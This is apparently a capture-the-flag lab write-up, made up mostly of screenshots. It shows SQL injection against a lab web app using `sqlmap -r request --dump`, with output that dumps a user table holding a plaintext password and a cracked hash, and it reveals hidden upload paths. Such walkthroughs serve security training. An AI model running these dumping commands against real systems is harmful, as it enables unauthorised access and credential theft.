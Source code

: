 ![image](https://github.com/user-attachments/assets/042b2b5d-58c1-4018-b871-e55e152c93e8)

<p><code>"SELECT * FROM user WHERE email = 'hacker@root.thm'"</code></p>

![image](https://github.com/user-attachments/assets/ef165859-7622-438f-b765-46baa6a5e7d6)

<p>Saved item as <code>resquest</code>.</p>

![image](https://github.com/user-attachments/assets/17219395-02aa-4bd4-80f6-6a23ea36a5eb)

<h3>sqlmap</h3>

```bash
~# sqlmap -r request --dump
```

<p>/file1010111/index.php    1  69c66901194a6486176e81f5945b8929 (easytohack)<br
/upload-cv00101011/index.php  3   // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z<br>
retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'<br>
1    | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 <br>
table 'expose.`user`' dumped to CSV file '/root/.sqlmap/output/10.10.41.181/dump/expose/user.csv'<br>
fetched data logged to text files under '/root/.sqlmap/output/10.10.41.181</p>

![image](https://github.com/user-attachments/assets/d70cd865-7199-4d23-9f1d-1e5c0c4a8494)

![image](https://github.com/user-attachments/assets/aeca0730-0bd2-45bc-b52c-2cead580f4da)

![image](https://github.com/user-attachments/assets/aea6b869-736f-4c5b-b0e3-1eac94d9bd7e)


<h3>http://TargetIP:1337/file1010111/index.php</h3>

![image](https://github.com/user-attachments/assets/4fdcce84-2c44-41f2-91ee-5656bf6b021e)

![image](https://github.com/user-attachments/assets/d4df459d-70d6-4238-810a-da1638d9c74e)


<h3>http://TargetIP:1337/upload-cv00101011/index.php</h3>

![image](https://github.com/user-attachments/assets/fdaec5ad-e2a5-4cc9-90d1-97246f7389e3)

<h3>http://TargetIP:1337/file1010111/index.php</h3>

![image](https://github.com/user-attachments/assets/35050751-f3ab-4325-8e1a-65e51812931a)

<p>zeamkish</p>

![image](https://github.com/user-attachments/assets/32574eee-e01f-4c1c-915c-a0f93a7fa971)

<h3>http://TargetIP:1337/upload-cv00101011/index.php</h3>

![image](https://github.com/user-attachments/assets/2c07c8c2-a524-45fa-9a17-c24393ee4bfc)

![image](https://github.com/user-attachments/assets/6d3e7723-50d3-4d4d-aedc-9ae168336fc2)
